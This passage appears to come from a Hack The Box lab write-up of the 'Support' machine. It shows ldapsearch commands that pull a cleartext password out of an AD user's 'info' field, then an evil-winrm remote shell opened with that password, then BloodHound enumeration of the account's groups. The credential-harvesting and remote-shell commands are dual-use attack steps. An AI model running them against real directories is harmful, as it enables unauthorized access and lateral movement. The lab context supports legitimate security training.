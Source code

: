 ```bash
┌──(kali㉿Kali)──[1:05:21]──[~/htb/Machines/Support]
└─$ ldapsearch -x -H ldap://$IP -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | grep -i 'Ironside47pleasure40Watchful' -B 15
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
```
I verify the password with `crackmapexec`, and it works. I remember from poking around in Bloodhound earlier that the `support` account can PSRemote into the box. I plug the creds into `evil-winrm` and get a shell!
```bash
┌──(kali㉿Kali)──[1:10:41]──[~/htb/Machines/Support]
└─$ evil-winrm -i $IP -u support -p 'Ironside47pleasure40Watchful'

Evil-WinRM shell v3.5
  
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
  
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
```

I decide to give Bloodhound another look. I run Bloodhound again with the `support` account.
```bash
┌──(kali㉿Kali)──[0:59:38]──[~/htb/Machines/Support/userinfo]
└─$ bloodhound-python -c ALL -u support -p 'Ironside47pleasure40Watchful' -d support.htb -ns 10.129.230.181
```
I mark support as owned. I go to the "Node Info" tab and check Unrolled group memerships. I see that `support` is part of an interesting group called `Share Support Accounts`. 
